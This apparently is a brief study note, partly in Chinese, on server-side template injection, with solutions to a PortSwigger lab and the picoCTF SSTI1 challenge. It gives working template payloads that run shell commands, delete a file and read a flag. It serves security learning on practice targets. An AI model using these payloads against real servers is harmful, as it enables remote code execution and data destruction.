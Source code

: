 # Server-Side Template Injection

https://portswigger.net/web-security/server-side-template-injection/exploiting

對 Twig, FreeMarker 等框架做 injection

## 機制
```php
$output = $twig->render($_GET['custom_email'],  array("first_name" => $user.first_name) );
```
注入
```
custom_email={{7*7}}

49
```
### 步驟
1. 檢查 SSTI: 注入 `{{5*2}}` 看會不會回傳 `10`
2. 檢查框架
  - {{7*'7'}} would result in 49 in Twig
  - {{7*'7'}} would result in 7777777 in Jinja2
3. 

## Demo
### Lab1
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic <br>
測試一下，可以發現 message 可以被注入 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=7*7%%3E <br>
> 49
之後就開找檔案 <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20system(%22ls%22)%20%%3E <br>
> morale.txt true
之後達成條件：刪除 morale.txt <br>
https://0a3a00f00382d99e807bad12007a00d0.web-security-academy.net/?message=%3C%=%20File.delete("morale.txt")%20%%3E <br>
> Lab success


### picoCTF SSTI1
payload
```twig
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

result
```
.: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc
```
payload
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

